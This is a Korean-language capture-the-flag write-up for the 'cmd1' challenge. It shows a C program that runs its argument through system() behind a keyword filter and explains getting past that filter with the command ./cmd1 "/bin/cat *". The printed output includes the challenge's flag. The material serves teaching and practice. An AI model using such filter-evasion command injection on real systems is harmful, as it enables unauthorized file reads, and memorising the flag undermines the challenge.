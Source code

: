 # cmd1

## cmd1.c
```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "flag")!=0;
	r += strstr(cmd, "sh")!=0;
	r += strstr(cmd, "tmp")!=0;
	return r;
}
int main(int argc, char* argv[], char** envp){
	putenv("PATH=/thankyouverymuch");
	if(filter(argv[1])) return 0;
	system( argv[1] );
	return 0;
}
```

`argv[1]`에서 `flag`, `sh`, `tmp`를 필터링한다. `PATH` 환경변수도 변경해서 명령어를 사용할 때 절대경로를 이용해야 한다. `/bin/cat`과 `*` 와일드카드나 심볼릭링크를 이용하면 flag를 읽을 수 있다.

`./cmd1 /bin/cat *` 이렇게 하면 `argv[1]`에는 `/bin/cat`만 들어가게 되므로 더블 쿼터로 감싸줬다.

## exploit

```bash
cmd1@ubuntu:~$ ./cmd1 "/bin/cat *"
~~~
_libc_start_main@@GLIBC_2.2.5putenv@@GLIBC_2.2.5__data_start__gmon_start____dso_handle_IO_stdin_used__libc_csu_init_end_start__bss_startmain_Jv_RegisterClasses_initstrstr@@GLIBC_2.2.5#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "flag")!=0;
	r += strstr(cmd, "sh")!=0;
	r += strstr(cmd, "tmp")!=0;
	return r;
}
int main(int argc, char* argv[], char** envp){
	putenv("PATH=/thankyouverymuch");
	if(filter(argv[1])) return 0;
	system( argv[1] );
	return 0;
}

mommy now I get what PATH environment is for :)
```